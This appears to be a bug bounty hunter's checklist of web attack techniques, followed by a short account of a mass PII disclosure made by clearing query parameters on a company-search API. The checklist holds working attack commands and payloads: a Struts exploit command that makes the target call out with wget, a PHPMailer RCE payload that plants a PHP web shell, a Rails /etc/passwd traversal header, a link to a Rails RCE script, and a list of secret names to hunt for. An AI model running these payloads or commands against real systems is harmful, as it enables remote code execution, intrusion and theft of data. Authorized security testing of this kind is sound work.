 ***
### Bugs
- **Blind XSS**
	- Blind XSS Payload in User-Agent header
	- BXSS payload while logging (Enter the BXSS payload in forget pass, login, signup to generate errors)
	- Use BXSS payload as your password
- Add header in the Proxy > Options (`X-Forwarded-Host: site.com`) - browse the program and the later click burp > search and try to find your `X-Forwarded-Host` value for web cache deception
- HTTP Request Smuggling
- Apply on `.xhtml`
- `python struts-pwn.py -u http://site.com/orders.xhtml -c "wget http://ip:1337/test" --exploit`
- Test for Electronic Code Book (`AAAAAAA aaaaaaa BBBBB`)
- CVE-2016-10033: PHPMailer RCE
	- email: "attacker@127.0.0.1\" -oQ/tmp/ -X /var/www/shell.php root"@127.0.0.1
	- subject: <?php system($_GET['c']);?>
- Change all the request to TRACE method to disclose or access info
- `blc http://company.com -ro` (check for broken links)
- `companyname.atlassian.net`
- `jira.companyname.com`
- Vhost testing
- Test for buckets
- Check Github & docker list
- api, token, username, password, secret, dev, prod, jenkins, config, ssh, ftp, MYSQL_PASSWORD, admin, AWS, bucket, GITHUB_TOKEN
- `gau site.com`
- Accessing misconfigured date of and `org: https://stroage.googleapis.com/<org-name>`
- Unauthorized access to org's google groups: `https://groups.google.com/a/<domain-name>`
- `waybackurls site.com`
- if running ruby on rails then: `Accept ../../../../../etc/passwd{{`
	- CVE-2019-5418
	- Fixed in Action View 6.0.0.beta3, 5.2.2.1, 5.1.6.2, 5.0.7.2, 4.2.11.1
- CVE-2013-0156: Rails Object injection: `ruby rails_rce.rb http://site.com` [script](https://gist.githubusercontent.com/postmodern/4499206/raw/a68d6ff8c1f9570a09365036aeb96f6a9fff7121/rails_rce.rb)
- CVE-2019-11043 Hint: PHP based website on NGINX phuip-fpizdam `http://site.com/anyphpfile.php`
- Check for crlf injection
- Bypass open redirection protection
- keyfinder
- `site: scribd.com "target"` (or you can use other dorks like "TARGET")
- Check email verification `admin@site.com`
- `site.com/home/....4....json` (Will disclose all the content of the home dir + sensitive info)
- CVE-2019-19781 Citrix NetScaler Directory Traversal:
```bash
curl -vk -path-as-is https://$TERGET/vpn/../vpns/ 2>&1 | grep "You don't have permission to acces /vpns/" >/dev/null && echo "VULNERABLE: $TERGET" || echo "MITIGATED:$TARGET" 
```
Some organizations allow test cards on production environments as they forget to disable testing mode. When you come across such a website that requires `Paid Subscription` and is using `Stripe` as a `Payment Gateway`, always try demo or fake debit cards.

---
## Excessive Date Exposure
In a private bug bounty program, the response to the login request had three addition parameters: `isAdmin`, `isStaff`, and `isSupport`. All three were initially set to `false`. Setting them to `true` grated access to a new endpoint that allowed searching for companies using their registration IDs. 
A GET request to the following endpoint was made when searching for a company:
```http
GET /company/companies.json?registration_number=123456&page=1&per1 HTTP/1.1
Host: api.site.com
```
The `GUI` displayed only the `Company's Name`. However, by using Burp Suited to analyzed the response, `Sensitive Personal Information` for the company was exposed. The disclosed information included the `Company Name`, `Email`, `Phone Number`, and `Full Address (Street, City, Country)`.
This data was initially exclusive to a single company, and any attempt at brute-forcing was disallowed on that endpoint due to the presence of rate-limit protection.
I cleared the values of all parameters and sent the request with empty fields.
```http
GET /company/companies.json?registration_number=&page=&per= HTTP/1.1
```
As a result, the sensitive information of every company in the program was exposed. It was a Mass PII disclosure affecting more than 40 thousand companies.
